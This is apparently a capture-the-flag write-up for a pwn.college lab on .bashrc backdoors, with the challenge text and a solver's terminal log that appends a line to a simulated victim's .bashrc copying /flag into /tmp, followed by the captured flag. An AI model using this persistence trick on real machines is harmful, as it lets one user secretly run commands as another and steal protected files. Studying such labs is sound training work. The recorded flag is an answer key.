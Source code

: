 # Silly Shenanigans

## Bashrc Backdoor
When your shell starts up, it looks for .bashrc file in your home directory and executes it as a startup script. You can customize your /home/hacker/.bashrc with useful things, such as setting environment variables, tweaking your shell configuration, and so on.

You can also use it for evil! An unwitting victim's .bashrc is a common target for shenanigans. Imagine sneaking onto your friend's computer and adding a echo "Hackers were here!" at the end of their .bashrc. That's funny, but the same capability can be used for much more nefarious purposes. Malicious software, for example, often targets startup scripts such as .bashrc to maintain persistence into the future!

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named zardus, with a home directory of /home/zardus. You, as the hacker user, have write access to his .bashrc, and zardus has read-access to /flag. The victim is simulated by the script /challenge/victim, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

HINT: Like the scripts you explored in Chaining Commands, the .bashrc script is just a shell script. Adding a new line with a command on it (e.g., echo Hello Hackers) will get that command executed, so all you really need to think about is what command will get you the flag!

NOTE: The victim's /home/zardus/.bashrc will have a lot of stuff already in it: the shell's startup is a complex affair. Don't panic --- just add your payload to the end and hope for the best!

HINT: Need to poke around as zardus to debug your solution? In practice mode, you can use sudo su --login zardus to drop into a Zardus session!

### Solve
**Flag:** `pwn.college{83noPy3GGUWbyrsn5tcXYoNndCt.0VMzEzNxwSN1gjNzEzW}`
 for this Challenge,i opened the .bashrc script and added cat /flag and pipe the output into a text file in a publicaly readable directory like tmp as zardus user can't create a file in hacker user directory . Then i ran /challenge/victim to simulate zardus user and then i catted the text file to get the flag.

```bash 
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
cat /flag > /tmp/flag1.txt
hacker@shenanigans~bashrc-backdoor:/$ /challenge/victim
Username: zardus
Password: ***********
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:/$ cat /tmp/flag1.txt
pwn.college{83noPy3GGUWbyrsn5tcXYoNndCt.0VMzEzNxwSN1gjNzEzW}
```
